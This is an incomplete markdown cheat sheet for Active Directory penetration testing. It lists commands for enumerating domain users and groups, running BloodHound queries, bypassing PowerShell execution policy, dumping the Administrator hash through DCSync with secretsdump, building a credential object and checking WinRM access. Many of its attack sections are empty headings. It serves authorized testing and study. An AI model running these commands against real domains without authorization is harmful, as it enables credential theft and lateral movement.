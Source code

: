 # Enumeration

## Some tips:
In order to execute some powershell scripts:
```
powershell -ep bypass
```

About users (script for getting users)

## Manual

Windapsearch form anonymous binds:
```
./windapsearch.py -d domain.com --dc-ip $rhost -U
```

### Enumerate Users
```
impacket-GetADUsers domain.com -dc-ip $rhost -debug
```

[Username anarchy - Tool for generating usernames when pentesting.](https://github.com/urbanadventurer/username-anarchy)

If you have only users, you should try **AS-REP Roasting**.

Enumerate Local Accounts on the machine:
```
net user /domain
```

Checking admin account:
```
net user admin /domain
```

Enumerate roups:
```
net group /domain
```

Get information about Sales Department
```
net group "Sales Department" /domain
```

### Operating System

### Permissions and Logged on Users

### Enumeration Through Service Principal Names

### Enumerating Object Permissions

### Enumerating Domain Shares

## Automatic

### BloodHound

#### Sharphound:
```
Invoke-BloodHound -CollectionMethod All
```

#### Analyzing Data

#### Raw Queries

Return Computers:
```
MATCH (m:Computer) RETURN m
```

Return Users:
```
MATCH (m:User) RETURN m
```

```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

# Attacking


![](img/Kerberos_protocol.png)

## Password Attacks

## AS-REP Roasting

## Kerberoasting

## Silver Tickets

## Domain Controller Synchronization

With impacket:
```
secretsdump.py domain.com/username@$rhost -just-dc-user Administrator
```

with mimikatz:


# Lateral Movement

How to create a PSCredential:
```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

## Wmic and WinRM
WMI, we need credentials of a member of the Administrators local group

For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

Checking for WinRM:
```
crackmapexec winrm $ip -u user -p password
```
## PsExec
The user that authenticates to the target machine needs to be part of the Administrators local group
The ADMIN$ share must be available and File and Printer Sharing has to be turned on

impacket-psexec
## Pass the Hash

## Overpass the Hash

## Pass the Ticket

## DCOM

# Persistance

## Golden Ticket

## Shadow Ticket
